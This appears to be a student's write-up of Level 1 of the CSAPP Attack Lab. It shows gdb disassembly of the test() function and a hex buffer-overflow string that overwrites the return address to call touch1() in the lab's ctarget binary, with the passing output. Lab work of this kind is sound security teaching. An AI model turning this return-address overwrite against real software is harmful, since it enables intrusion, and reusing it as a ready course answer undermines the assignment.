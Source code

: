 ~~~shell
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401971 → test()
[#1] 0x401f24 → launch(offset=<optimized out>)
[#2] 0x401ffa → stable_launch(offset=<optimized out>)
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  

gef➤  x /4w 0x401971
0x401971 <test+9>:      0xfffe32e8      0xbec289ff      0x403188        0x1bf
gef➤  disas test 
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    rsp,0x8
   0x000000000040196c <+4>:     mov    eax,0x0
=> 0x0000000000401971 <+9>:     call   0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    edx,eax
   0x0000000000401978 <+16>:    mov    esi,0x403188
   0x000000000040197d <+21>:    mov    edi,0x1
   0x0000000000401982 <+26>:    mov    eax,0x0
   0x0000000000401987 <+31>:    call   0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:    add    rsp,0x8
   0x0000000000401990 <+40>:    ret    
End of assembler dump.

0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
~~~

# Level1
~~~shell
~/new_space/CSAPP_Lab/Attack/target1 (master*) » cat exploit.txt | ./hex2raw | ./ctarget -q         czy@czy-307-thinkcentre-m720q-n000
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:41 41 41 42 41 41 43 41 41 44 41 41 45 41 41 46 41 41 47 41 41 48 41 41 49 41 41 4A 41 41 4B 41 41 4C 41 41 4D 41 41 4E C0 17 40 00

~/new_space/CSAPP_Lab/Attack/target1 (master*) » bat exploit.txt                                    czy@czy-307-thinkcentre-m720q-n000
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 41 41 41 42 41 41 43 41 41 44 41 41 45 41 41 46 41 41 47 41 41 48 41 41 49 41 41 4A 41 41 4B 41 41 4C 41 41 4D 41 41 4E C0 17 
       │ 40 00 /* Level 1*/
~~~
